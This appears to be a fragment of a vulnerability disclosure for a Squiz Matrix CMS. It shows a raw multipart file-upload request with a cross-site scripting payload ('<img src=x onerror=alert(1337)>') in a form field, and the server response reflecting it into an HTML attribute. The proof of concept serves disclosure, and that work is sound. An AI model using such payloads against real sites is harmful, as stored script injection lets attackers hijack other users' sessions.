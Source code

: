 ```
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="backend_assetid"

0
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="backend_version"


-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="file_0_39"

poc <img src=x onerror=alert(1337)>
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="file_0"; filename="poc.txt"
Content-Type: text/plain

JUNK

-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="link_type"

1
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="sq_lock_release"

0
-----------------------------184207501025508161682573302096
Content-Disposition: form-data; name="sq_committing"

1
-----------------------------184207501025508161682573302096--
```

Repsonse:
```html
HTTP/1.1 200 OK
Server: openresty
Date: Thu, 10 Sep 2020 14:32:50 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/7.3.5
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 59484

        <!DOCTYPE html>
                    <!--[if !IE]> -->	<html class="main" lang="en-AU"> <!-- <![endif]-->
                    <head>
            <meta charset="utf-8"/>
            <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"/>
            <title>poc.txt</title>
            <link rel="stylesheet" type="text/css" href="http://matrixdemo.squiz.net/__lib/web/css/reset.css?1312567-1581484407-1941" />

            ...
            
                                        <td class="sq-backend-data">
                                                        <div class="sq-file-info pb-10" data-assetId="274" data-assetName="poc <img src=x onerror=alert()>" >
                                <ul class="sq-list-unstyled sq-inline-block">
```